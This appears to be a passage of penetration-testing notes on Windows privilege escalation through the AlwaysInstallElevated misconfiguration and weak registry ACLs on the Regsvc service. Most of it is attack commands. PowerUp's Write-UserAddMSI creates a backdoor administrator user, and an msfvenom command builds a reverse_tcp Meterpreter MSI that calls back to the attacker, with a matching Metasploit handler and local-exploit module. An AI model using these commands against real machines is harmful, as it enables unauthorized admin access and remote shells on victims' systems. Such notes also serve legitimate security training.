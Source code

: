 ### Overview
To test if this vulnerability is available:
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
the value of 'AlwaysInstallElevated' must be 1
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
again the value must be 1
```

### Escalation
```powershell
# We can see the AbuseFunction in the PowerUp > Invoke-AllChecks
# example: AbuseFunction : Write-UserAddMSI

In Powershell:
Write-UserAddMSI
```

> A file UserAdd is gonna appear in the same directory of the PowerUp
We will run this file. A window will pop up and we will set a backdoor user to have administrator access

### with Meterpreter
```bash
use exploit/multi/handler
set options

msfvenom -p windows/meterpreter/reverse_tcp lhost=<our ip> -f msi -o setup.msi
# send to the windows target machine.
# make sure u have a listener running & run the setup.msi
```

### Another method
with meterpreter:
```bash
use exploit/windows/local/always_install_elevated
set the session
```


## Regsvc ACL Overview
We are gonna test if we have full control over a register key.

If the answer is oui, we can compile a malicious executable writen in C and make that executable run a command

### Detection
in powershell:
```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
# The correct output should be: our current user has FullControl
```
